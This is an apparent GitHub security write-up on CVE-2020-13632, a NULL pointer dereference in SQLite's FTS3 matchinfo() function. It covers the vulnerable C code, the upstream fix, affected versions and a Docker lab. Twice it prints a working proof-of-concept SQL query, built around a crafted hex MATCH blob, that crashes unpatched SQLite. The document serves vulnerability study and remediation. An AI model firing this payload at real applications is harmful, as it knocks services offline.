


# CVE-2020-13632 CWE-476 SQLite DoS

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **FTS3 (Full-Text Search 3):** A full-text search virtual table engine provided by SQLite for efficient keyword matching and search operations on large text fields. It is an implementation of `VIRTUAL TABLE`.
- **Inverted Document (Inverted Document or Inverted Index):** A commonly used data structure in full-text search and search engine fields for efficient keyword searches. Its core idea is to shift from "which words are included in the document" to "which documents each word appears in." In the SQLite FTS3/FTS4 modules, the inverted document (doclist) is an implementation of an inverted index, storing the document number and position information for each keyword, facilitating efficient full-text search and relevance sorting.
- **matchinfo Function:** A query auxiliary function provided by the FTS3/FTS4 extension, used to obtain keyword hit information from the current MATCH query. It is commonly used to calculate relevance scores, implement custom sorting, and debug internal matching logic. Function syntax: `matchinfo([table], [format])`, table: FTS3 virtual table name, format: a format string that determines the structure of the returned information. `matchinfo()` can only be used in `FTS3/FTS4` `VIRTUAL TABLE` queries (i.e., in `MATCH` statements), and returns BLOB type (a string of bytes), which requires `SELECT hex` or extension functions (such as rank, bm25).
- **CWE-476 (NULL Pointer Dereference):* *Null pointer dereference. If a pointer variable is NULL, unreferencing this pointer will cause the program to crash (Segmentation fault). Dereferencing refers to the operation of accessing values in the memory unit it points to via pointers.

## Vulnerability Mechanism
In versions prior to version 3.32.0, SQLite had a null pointer dereference vulnerability in `ext/fts3/fts3_snippet.c`, triggered by the `matchinfo()` function.

 `fts3ExprLHits()` function does not perform non-null checks on `pExpr->pPhrase->doclist.pList`, resulting in `MATCH` queries that are illegally constructed (such as manually concatenated binary expression trees), where `pPhrase` exist but `pPhrase->doclist.pList` is NULL. Then, traversal and dereference operations are performed on the NULL pointer, resulting in null pointer dereference (NULL dereference) and program crash (DoS).

## Vulnerability Location
In the ext \fts 3 \fts 3_snippet.c file, line **862**** `fts3ExprLHits` function** is part of the `matchinfo` function used to handle data in 'y' or 'b' format (i.e., number of hits per column phrase or column hit bitmap).

On line 869, when retrieving the list of inverted documents, the `pExpr->pPhrase->doclist.pList` pointer (assigned to `pIter`) is directly used, and **without checking whether it is NULL**, it starts accessing and traversing it. Later, in the loop traversal `column list` at line 879, when the `pList` is NULL, both `fts3ColumnlistCount(&pIter)` and `*pIter` access will cause **NULL dereference**, causing the program to crash.

If an expression during construction (such as `MATCH x'...';`) is illegal or corrupted and loads fail, `pPhrase->doclist.pList == NULL` and `fts3ColumnlistCount()` will operate on the memory pointed to by `pIter`, causing the empty pointer to crash.

```c
/*
** This function gathers 'y' or 'b' data for a single phrase.
*/
static int fts3ExprLHits(
  Fts3Expr *pExpr,                /* Phrase expression node */
  MatchInfo *p                    /* Matchinfo context */
){
  Fts3Table *pTab = (Fts3Table *)p->pCursor->base.pVtab;
  int iStart;
  Fts3Phrase *pPhrase = pExpr->pPhrase;
// 869 lines ********** Get the list of inverted documents **************** Vulnerability points************************
  char *pIter = pPhrase->doclist.pList;
  int iCol = 0;

  assert( p->flag==FTS3_MATCHINFO_LHITS_BM || p->flag==FTS3_MATCHINFO_LHITS );
    // Calculate the location where aMatchinfo[] is written
  if( p->flag==FTS3_MATCHINFO_LHITS ){
    iStart = pExpr->iPhrase * p->nCol;
  }else{
    iStart = pExpr->iPhrase * ((p->nCol + 31) / 32);
  }
// 879 rows ********** traverse the column list, counting the number of hits per column*******************************
  while( 1 ){
    int nHit = fts3ColumnlistCount(&pIter); // ！!! If pIter is NULL, it will crash
    if( (pPhrase->iColumn>=pTab->nColumn || pPhrase->iColumn==iCol) ){
        // Writing results to aMatchinfo[]
      if( p->flag==FTS3_MATCHINFO_LHITS ){
        p->aMatchinfo[iStart + iCol] = (u32)nHit;
      }else if( nHit ){
        p->aMatchinfo[iStart + (iCol+1)/32] |= (1 << (iCol&0x1F));
      }
    }
      // Move to the next column number
    assert( *pIter==0x00 || *pIter==0x01 );
    if( *pIter!=0x01 ) break;
    pIter++;
    pIter += fts3GetVarint32(pIter, &iCol);
    if( iCol>=p->nCol ) return FTS_CORRUPT_VTAB;
  }
  return SQLITE_OK;
}
```

## Remediation
Upgrade to SQLite 3.32.0 or later, or apply upstream check-in `a4dd148928ea65bd`. Applications using FTS3 should not execute attacker-controlled `matchinfo()` queries on an unpatched build.

At line 879 of the `fts3ExprLHits()` function, a non-null check for `pList` is added before traversing `column list` to avoid null pointer access.

```c
if( pIter )  // Added non-null validation for pList
    while( 1 ){
    int nHit = fts3ColumnlistCount(&pIter);
    if( (pPhrase->iColumn>=pTab->nColumn || pPhrase->iColumn==iCol) ){
      if( p->flag==FTS3_MATCHINFO_LHITS ){
        p->aMatchinfo[iStart + iCol] = (u32)nHit;
      }else if( nHit ){
        p->aMatchinfo[iStart + (iCol+1)/32] |= (1 << (iCol&0x1F));
      }
    }
```

## Affected Versions
- SQLite ≤ 3.31.1
- FTS3 module enabled: `matchinfo()` belongs to the `FTS3`/`FTS4` extension module
- Enabled `SQLITE_ENABLE_FTS3_PARENTHESIS` macros (i.e., parenthesis expression parsing support): complex `MATCH` expressions (including parentheses, NOT, nested) must be supported to reach the crash logic

## Environment Setup
The SQLite version in the Docker environment is 3.31.1.

When compiling SQLite in Dockerfile, add the parameter `-DSQLITE_ENABLE_FTS3_PARENTHESIS` to enable `FTS3_PARENTHESIS` (parenthesis expression parsing support).



## Vulnerability Reproduction
1. Use commands to enter the container command line;

   ```bash
   docker exec -it sqlite-3.31.1 bash
   ```

2. Use sqlite3 to create and connect to test_db databases;

   ```bash
   sqlite3 test_db
   ```

3. Execute the following PoC code in sequence. You will see that SQLite has experienced a segment error and crashed.

   ```sql
   CREATE TABLE t_content(col0 INTEGER);
   
   CREATE VIRTUAL TABLE t0 USING fts3(col0 INTEGER PRIMARY KEY,col1 VARCHAR(8),col2 BINARY,col3 BINARY);
   
   INSERT INTO t0 VALUES (1, '1234','aaaa','bbbb');
   
   SELECT hex(matchinfo(t0,'yxy'))  FROM t0 WHERE t0 MATCH  x'2b0a312b0a312a312a2a0b5d0a0b0b0a312a0a0b0b0a312a0b310a392a0b0a27312a2a0b5d0a312a0b310a31315d0b310a312a316d2a0b313b15bceaa50a312a0b0a27312a2a0b5d0a312a0b310a312b0b2a310a312a0b2a0b2a0b2e5d0a0bff313336e34a2a312a0b0a3c310b0a0b4b4b0b4b2a4bec40322b2a0b310a0a312a0a0a0a0a0a0a0a0a0b310a312a2a2a0b5d0a0b0b0a312a0b310a312a0b0a4e4541530b310a5df5ced70a0a0a0a0a4f520a0a0a0a0a0a0a312a0b0a4e4541520b310a5d616161610a0a0a0a4f520a0a0a0a0a0a312b0a312a312a0a0a0a0a0a0a004a0b0a310b220a0b0a310a4a22310a0b0a7e6fe0e0e030e0e0e0e0e01176e02000e0e0e0e0e01131320226310a0b0a310a4a22310a0b0a310a766f8b8b4ee0e0300ae0090909090909090909090909090909090909090909090909090909090909090947aaaa540b09090909090909090909090909090909090909090909090909090909090909fae0e0f2f22164e0e0f273e07fefefef7d6dfafafafa6d6d6d6d';
   ```

   

## PoC Analysis
First, perform some initialization SQL operations to ensure that subsequent `matchinfo()` have valid objects to analyze

```sql
-- Create a table t_content
CREATE TABLE t_content(col0 INTEGER);
-- Create a virtual table t0 that supports FTS3 and contains multiple columns
CREATE VIRTUAL TABLE t0 USING fts3(
    col0 INTEGER PRIMARY KEY,
    col1 VARCHAR(8),
    col2 BINARY,
    col3 BINARY
);
-- Insert data into t0
INSERT INTO t0 VALUES (1, '1234','aaaa','bbbb');
```

Afterwards, the invalid MATCH expression is manually constructed. `x'......'` is a manually stacked memory structure to construct a forged FTS3 expression syntax tree (Fts3Expr tree). This large hexadecimal data block is actually a deliberately constructed "illegal but structurally parsable" syntax tree. Triggering access to an uninitialized field in `matchinfo()` is mistakenly parsed by the `fts3ExprParse()` parser as a valid but incomplete Fts3Expr expression tree, causing some nodes to have `pPhrase` pointers but `pPhrase->doclist.pList == NULL` or `pPhrase->doclist.aAll == NULL` (not loading inverted tables), This causes `fts3ColumnlistCount()` to dereference the empty pointer when accessing `*pIter`, causing crashes.

```sql
-- Calls the FTS3 extension function matchinfo(), which returns the result in hexadecimal for debugging or verifying the trigger path
SELECT hex(matchinfo(t0,'yxy'))  
-- Query FTS3 virtual table t0
FROM t0 
-- Perform full-text search; But what you enter is an illegally constructed binary string (abnormal keywords)
WHERE t0 MATCH  x'2b0a312b0a312a312a2a0b5d0a0b0b0a312a0a0b0b0a312a0b310a392a0b0a27312a2a0b5d0a312a0b310a31315d0b310a312a316d2a0b313b15bceaa50a312a0b0a27312a2a0b5d0a312a0b310a312b0b2a310a312a0b2a0b2a0b2e5d0a0bff313336e34a2a312a0b0a3c310b0a0b4b4b0b4b2a4bec40322b2a0b310a0a312a0a0a0a0a0a0a0a0a0b310a312a2a2a0b5d0a0b0b0a312a0b310a312a0b0a4e4541530b310a5df5ced70a0a0a0a0a4f520a0a0a0a0a0a0a312a0b0a4e4541520b310a5d616161610a0a0a0a4f520a0a0a0a0a0a312b0a312a312a0a0a0a0a0a0a004a0b0a310b220a0b0a310a4a22310a0b0a7e6fe0e0e030e0e0e0e0e01176e02000e0e0e0e0e01131320226310a0b0a310a4a22310a0b0a310a766f8b8b4ee0e0300ae0090909090909090909090909090909090909090909090909090909090909090947aaaa540b09090909090909090909090909090909090909090909090909090909090909fae0e0f2f22164e0e0f273e07fefefef7d6dfafafafa6d6d6d6d';
```

## References
[NVD - CVE-2020-13632](https://nvd.nist.gov/vuln/detail/CVE-2020-13632#range-15057945)

[SQLite: Submit [a4dd148928\] --- SQLite: Check-in [a4dd148928]](https://sqlite.org/src/info/a4dd148928ea65bd)

[SQLite: Artifact [00144e8417\]](https://sqlite.org/src/artifact/00144e841704b8de)
